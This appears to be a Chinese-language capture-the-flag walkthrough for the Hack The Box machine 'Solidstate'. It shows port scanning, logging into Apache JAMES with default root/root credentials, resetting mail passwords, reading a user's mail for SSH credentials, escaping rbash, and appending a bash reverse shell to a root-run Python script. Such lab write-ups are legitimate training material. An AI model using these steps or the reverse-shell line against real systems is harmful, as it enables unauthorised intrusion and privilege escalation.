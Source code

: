 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Solidstate"
linktitle: "Solidstate"
date: 2022-06-02T17:54:40+08:00
type: book
summary: ""
test: 
---
```


# Solidstate

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.51
```

![](image/image_NkhXmjgTIB.png)

80端口，扫了目录没有什么发现，根据端口开放情况，可能是针对邮件服务器的渗透

![](image/image_sI_RlGs2RG.png)

4555

```bash
JAMES Remote Administration Tool 2.3.2
```

![](image/image_T3u599kmYI.png)

james默认口令`root/root`

![](image/image_O8k2rwV9Vv.png)

修改邮件用户密码

```bash
#查询用户列表
listusers

#修改用户密码
setpassowrd <user> <password>
```

![](image/image_2GevEVNS73.png)

登录` mindy`&#x20;

```bash
telnet 10.10.10.51 110

USER mindy

PASS 123456

#查看第二封邮件

retr 2
```

第二封邮件发现了管理员`mailadmin`发的ssh账号密码

![](image/image__80RrT5Ed3.png)

```bash
username: mindy
pass: P@55W0rd1!2@
```

登录ssh

![](image/image_9G0HwKNXdp.png)

提权

`mindy`的shell是`rbash`，很多命令无法执行，将rbash提升到bash，重新登录

```bash
ssh mindy@10.10.10.51 -t bash
```

![](image/image_26oN4kKv-t.png)

下载`pspy32`到靶机执行

![](image/image_Y9su6v2Vef.png)

监控发现每3分钟 `root`执行一次`python /opt/tmp.py`

![](image/image_B1tCCx-09V.png)

直接修改`tmp.py` 内容为反弹shell

```bash
echo "os.system('bash -c "bash -i >& /dev/tcp/10.10.14.8/2333 0>&1"')">>/opt/tmp.py
```

![](image/image_MDrpmWme1X.png)

